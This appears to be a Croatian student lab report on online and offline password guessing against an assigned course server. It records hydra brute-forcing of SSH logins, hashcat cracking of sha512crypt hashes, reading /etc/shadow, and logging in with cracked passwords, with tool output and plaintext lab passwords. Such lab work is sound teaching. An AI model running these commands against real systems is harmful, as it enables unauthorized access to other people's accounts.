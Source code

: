 # Izvještaj pete laboratorijske vježbe

### Zadatak

Online and offline password guessing attacks

### Alati

**Online Password Guessing**

**Provjera dohvaćanja servera**

```python
ping a507-server.local
```

**Instaliranje nmap**

```python
sudo apt-get update
sudo apt-get install nmap
```

**IP adresa i username dodjeljena meni**

rako_bruna     10.0.15.8

**Uspostava ssh**

```python
ssh rako_bruna@10.0.15.8
```

**Koristeći hidru probamo sve kombinacije za lozinku**

```python
hydra -l rako_bruna -x 4:6:a 10.0.15.8 -V -t 1 ssh
```

**Downloadamo rječnik s mogućim lozinkama**

```python
wget -r -nH -np --reject "index.html*" [http://a507-server.local:8080/dictionary/g1/](http://a507-server.local:8080/dictionary/g1/)
```

**Pronađena lozinka**

```python
[ATTEMPT] target 10.0.15.5 - login "rako_bruna" - pass "mmebep" - 569 of 878 [child 1] (0/0)
[22][ssh] host: 10.0.15.8 login: rako_bruna password: mmebep
1 of 1 target successfully completed, 1 valid password found
Hydra ([http://www.thc.org/thc-hydra](http://www.thc.org/thc-hydra)) finished at 2021-12-20 13:59:33
```

**Pokušaj login-a s točnom lozinkom**

```python
a507@DESKTOP-LH5GUL2:/mnt/c/Users/A507$ ssh rako_bruna@10.0.15.8
rako_bruna@10.0.15.8's password:
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.4.0-91-generic x86_64)

Documentation: [https://help.ubuntu.com](https://help.ubuntu.com/)
Management: [https://landscape.canonical.com](https://landscape.canonical.com/)
Support: [https://ubuntu.com/advantage](https://ubuntu.com/advantage)

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
```

**Offline Password Guessing**

**Instaliranje hashcat**

```python
sudo apt-get install hashcat
```

**Pokušamo lozinke (brute force)**

```python
hashcat --force -m 1800 -a 3 hash.txt ?l?l?l?l?l?l --status --status-timer 10
```

**Pokušamo korištenjem dictionary_offline.txt**

```python
hashcat --force -m 1800 -a 0 hash.txt dictionary/g1/dictionary_offline.txt --status --status-timer 10
```

**Korištenjem naredbe ispod pronađemo hash vrijednost jean doe i pokušamo se ulogirati**

```python
sudo cat /etc/shadow
```

```python
$6$ovKwVzQdmdxJr3tS$0Y1ct6I5oJnJAH5sCadWMn8hRvfsE4Andj.M9adN2YMbu$zMGCw/cIzT6J3tpVZikwhR63A6v8R0.qyy73jvE1:igblev

Session..........: hashcat
Status...........: Cracked
Hash.Type........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$ovKwVzQdmdxJr3tS$0Y1ct6I5oJnJAH5sCadWMn8hRvfsE4A...73jvE1
Time.Started.....: Mon Dec 20 14:20:46 2021 (1 min, 4 secs)
Time.Estimated...: Mon Dec 20 14:21:50 2021 (0 secs)
Guess.Base.......: File (dictionary/g1/dictionary_offline.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....: 450 H/s (6.67ms)
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 28672/50078 (57.25%)
Rejected.........: 0/28672 (0.00%)
Restore.Point....: 28416/50078 (56.74%)
Candidates.#1....: kenale -> knzgzj
HWMon.Dev.#1.....: N/A
Started: Mon Dec 20 14:20:43 2021
Stopped: Mon Dec 20 14:21:51 2021
```

```python

ssh jean_doe@10.0.15.8
jean_doe@10.0.15.5's password:
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.4.0-91-generic x86_64)
```

```python
jean_doe@host_rako_bruna:~$ whoami
jean_doe
```